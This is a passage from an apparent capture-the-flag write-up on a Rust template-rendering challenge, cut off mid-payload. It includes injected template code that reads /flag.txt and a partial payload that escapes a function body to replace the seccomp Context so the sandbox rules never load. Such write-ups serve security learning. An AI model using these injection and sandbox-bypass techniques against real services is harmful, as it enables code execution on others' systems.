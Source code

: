         return "App failed to start"

The challenge here seems to be easy at first as we just need to place the correct rust code inside of one of the &lt;templ&gt; tags in the uploaded file to open and read the flag.txt file:

    html:::
    <html>
    <title><templ>fs::read_to_string("/flag.txt").unwrap()</templ></title>
    <h1><templ>"bruh".to_string()</templ></h1>
    </html>

However this attempt fails because the rust application uses the seccomp library to limit the system calls that are allowed to do:

    rust:::
    use seccomp::*;
    
    ...
    
    static ALLOWED: &'static [usize] = &[0, 1, 3, 11, 44,
                                         60, 89, 131, 202,
                                         231, 318];
    
    ...
    
    fn apply_seccomp() {
        let mut ctx = Context::default(Action::KillProcess).unwrap();
        for i in ALLOWED {
            let rule = Rule::new(*i, None, Action::Allow);
            ctx.add_rule(rule).unwrap();
        }
        ctx.load();
    }

By looking at the beginning of the rust_template variable we can see that the seccomp namespace is not imported but only its contents. This gives us the chance to create the same classes as provided by the lib.rs but with manipulated behaviour. By injecting our own manipulated "Context" class into the uploaded file we can prevent the rust application from applying the seccomp rules into the kernel:

    html:::
    <html>
    <title><templ>fs::read_to_string("/flag.txt").unwrap()</templ></title>
    <h1><templ>
      "anything".to_string()
      // / 1) escape from temp1() method definition by putting a } here
    }
    
    // / 2) seccomp reimplementation - copied from lib.rs and manipulated to allow everything
    // /    this works because the seccomp::Context object is imported with * and instanciated without
    // /    using its original namespace seccomp::
    
    // / <![CDATA[
    // /    Note: the CDATA section enables us to use "<" and ">" (prevents the html parser from recognizing tags in here)
    use seccomp_sys::scmp_compare::*;
    use seccomp_sys::*;
    